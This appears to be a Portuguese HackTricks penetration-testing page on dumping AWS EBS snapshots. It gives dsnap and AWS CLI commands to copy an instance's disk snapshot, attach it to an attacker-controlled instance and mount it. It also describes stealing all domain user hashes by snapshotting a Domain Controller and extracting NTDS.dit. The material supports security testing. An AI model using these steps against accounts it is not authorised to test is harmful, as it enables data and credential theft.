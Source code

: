# AWS - Despejo de Snapshot EBS

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Obtenha o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) no github.

</details>

### Verificando um snapshot localmente

```bash
# Instale as dependências
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Obtenha o snapshot da imagem
mkdir snap_wordir; cd snap_workdir
dsnap init
## Baixe um snapshot do volume daquela instância
## Se nenhum snapshot existir, ele tentará criar um
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Outra maneira de obter um snapshot
dsnap list #Listar snapshots
dsnap get snap-0dbb0347f47e38b96 #Baixar snapshot diretamente

# Execute com vagrant
IMAGE="<download_file>.img" vagrant up #Execute a imagem com vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Acesse a VM
vagrant destroy #Para destruir

# Execute com docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #Com o snapshot baixado
```

Para mais informações sobre esta técnica, verifique a pesquisa original em [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Você pode fazer isso com o Pacu usando o módulo [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs\_\_download\_snapshots)

### Verificando um snapshot na AWS

```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id  snap-0b49342abd1bdcb89
```

**Monte-o em uma VM EC2 sob seu controle** (tem que estar na mesma região que a cópia do backup):

**passo 1:** Vá para EC2 -> Volumes e crie um novo volume do tamanho e tipo desejados.

**Passo 2:** Selecione o volume criado, clique com o botão direito e selecione a opção "anexar volume".

**Passo 3:** Selecione a instância na caixa de texto da instância, conforme mostrado abaixo.

![](<../../../../.gitbook/assets/image (6) (1) (1).png>)

**Passo 4**_:_ Agora, faça login em sua instância ec2 e liste os discos disponíveis usando o seguinte comando.

```
lsblk
```

O comando acima listará o disco que você anexou à sua instância.

**Passo 5:**

![](<../../../../.gitbook/assets/image (75).png>)

Você pode fazer isso com o Pacu usando o módulo ebs\_\_explore\_snapshots

### Verificando um snapshot na AWS (usando cli)

```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Anexe o novo volume à instância
$ aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# monte o snapshot de dentro da VM
$ sudo file -s /dev/xvdb1
# Retorna:
# /dev/xvdb1: Linux rev 1.0 ext4 filesystem data, UUID=5a2075d0-d095-4511-bef9-802fd8a7610e, volume name "cloudimg-rootfs" (extents) (large files) (huge files)
$ sudo mount /dev/xvdb1 /mnt
```

### Shadow Copy

Qualquer usuário da AWS que possua a permissão **`EC2:CreateSnapshot`** pode roubar os hashes de todos os usuários do domínio criando um **snapshot do Controlador de Domínio** montando-o em uma instância que eles controlam e **exportando o arquivo NTDS.dit e o hive do registro SYSTEM** para uso com o projeto secretsdump do Impacket.

Você pode usar esta ferramenta para automatizar o ataque: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) ou você pode usar uma das técnicas anteriores após criar um snapshot.

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Obtenha o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) no github.

</details>
